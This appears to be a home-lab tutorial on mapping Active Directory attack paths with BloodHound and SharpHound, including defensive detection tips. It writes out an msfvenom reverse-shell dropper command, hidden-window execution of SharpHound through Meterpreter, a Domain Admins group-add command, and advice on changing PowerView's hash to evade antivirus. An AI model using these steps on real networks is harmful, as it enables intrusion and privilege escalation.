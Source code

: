 # Bloodhound
### What is it?
Bloodhound describes their product as using graph theory to reveal hidden and unintended links between users and groups that makes lateral movement easier for attackers. Naturally this is fantastic for defenders as well since you can view these paths and preemptively close them off or create alerting around when they're traversed.

### Setting up an AD environment with Badblood
First things first, I do not have a thousand person company with which to test active directory relationships. I also don't want to spend hours upon hours creating this by hand. Thankfully, someone else also didn't want to do this and so automated it! Enter Badblood. This is a Powershell script that can be used to fill an AD environment with randomness. Thousands of users and groups and relations with which to test and play around with. This can be downloaded from [their Github page](https://github.com/davidprowe/BadBlood), and running it is as simple as launching an admin Powershell window, navigating to the folder, setting the execution policy to unrestricted with ```set-executionpolicy unrestricted```, and then launching it with ```.\Invoke-badblood.ps1```.

![Upgraded AD](assets/img/bloodhound/upgraded-ad-badblood.png)

Now this is an AD environment!

### Running Bloodhound
For this example, we'll be running Bloodhound from our Kali machine, emulating the attacker. The first step is to install neo4j through ```sudo apt install neo4j``` - this is needed as it is our graph database management system. Start it with ```sudo neo4j start``` and after waiting a minute, browse to ```http:localhost:7474``` and login with the username and password neo4j/neo4j. Set a new password here to whatever you want, and we're now ready to install Bloodhound. Just like before, we'll install this with ```sudo apt install bloodhound``` and start it with ```sudo bloodhound```. You should see the Bloodhound screen popup with similar to this.

![Bloodhound](assets/img/bloodhound/bloodhound-login.png)

This is great and all, but our database is empty. There are no complicated AD relationships to untangle. So let's change that. We could just generate random data for a DB with a provided Python script, or we could practice taking that data from a DC.

### Enter SharpHound
Sharphound is a .NET executable that, when run, uses LDAP to collect information on all OU's, computers, accounts, and groups, as well as the links between them. This can uncover a lot of otherwise impossible to discover links between groups and users. We can run SharpHound from our C2 in order to generate some data for BloodHound. For this, we will be running Sharphound from a Metasploit console just for ease of reproduction - it's free and everyone has a copy! First, we'll use msfvenom in order to generate the staged dropper.

```
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.50 lport=443 -f exe > dropper.exe
```
Then, we'll host a listener through Metasploit with the ```multi/handler```.
![Meterpreter](assets/img/bloodhound/meterpreter-listener.png)

Once started, we're ready for the staged dropper to connect back and start our session. Upload Sharphound to the victim through ```upload SharpHound.exe``` and run it with ```execute -f SharpHound.exe```. This will start a new process and pop a very obvious shell window on the victim machine that shows Sharphound executing.
![SharpHound](assets/img/bloodhound/running-SharpHound.png)
This can be hidden by first dropping into a shell with ```shell``` and then running SharpHound through ```PowerShell.exe -WindowStyle hidden C:\Users\matt\Downloads\SharpHound.exe```. Finally, grab the output from Sharphound which is a zip file with ```download <filename>```.

### What info is gleaned?
Drag and drop this zip into Bloodhound and we're ready. Upon first examination of the data in Bloodhound, it's a huge mess.
![A mess](assets/img/bloodhound/bloodhound-getting-admin.png)
However, within this, we can identify some interesting lateral movement paths that bring us to domain admin.
![Path to DA](assets/img/bloodhound/bloodhound-path-to-da.png)
If we then focus in on one path only, we can see that there exists a number of group chains that connects the unprivileged account of Roger Lowery to Ellen Hale.
![Example path](assets/img/bloodhound/bloodhound-path-to-da-longest-path.png)
Let's see how this looks in AD to get an idea of the path that Bloodhound has identified.
![AD Comparison](assets/img/bloodhound/ad-comparison.png)
This is odd. We can see the group memberships flowing from Roger up through LA-CAS-DISTLIST1 but where is this link to KA-COC-ADMINGROUP1 coming from? The answer is the AD permission GenericAll. GenericAll grants the group full permission over the object, much like Domain Admin.

![EA](assets/img/bloodhound/effective-access.png)

They have all permissions possible. This is outlined in the security tab of the AD object as an extra set of permissions that are granted. And not only does this group we're looking at have GenericAll permissions to another group, that next group has GenericAll permissions to the Domain Admin Ellen Hale, giving us our attack path. This is what makes Bloodhound stand out, finding things like these obscure permission settings that are not immediately obvious.

Helpfully, Bloodhound gives us the commands that we need to run in order to abuse this group relationship. You can see these by right-clicking the attack path and selecting help, then going to the "Abuse Info" tab.
![Abuse Info](assets/img/bloodhound/bloodhound-help.png)

### Opsec considerations

SharpHound is designed to blend in with normal AD traffic, but there are certain key details you can hunt for. Event ID 5156 is generated en masse in the security logs when SharpHound starts, querying LDAP.

![AD](assets/img/bloodhound/ad-event-5156.png)

Another thing to consider is the commands that are suggested in the attack path. They are the "easiest" ways to perform the privilege escalation, but they are also *noisy* and that attracts attention. Bloodhound recommends importing PowerView to the endpoint in order to perform a lot of privilege escalation and, while this will create less alerts compared to just running ```net group "Domain Admins" userName /add /domain```, PowerView gets detected very quickly. This can be mitigated to a degree by changing the hash, reducing the amount of engines statically detecting it. But there's still a high risk at run time that the commands will raise flags.

![VT](assets/img/bloodhound/powersploit-updated-hash.png)
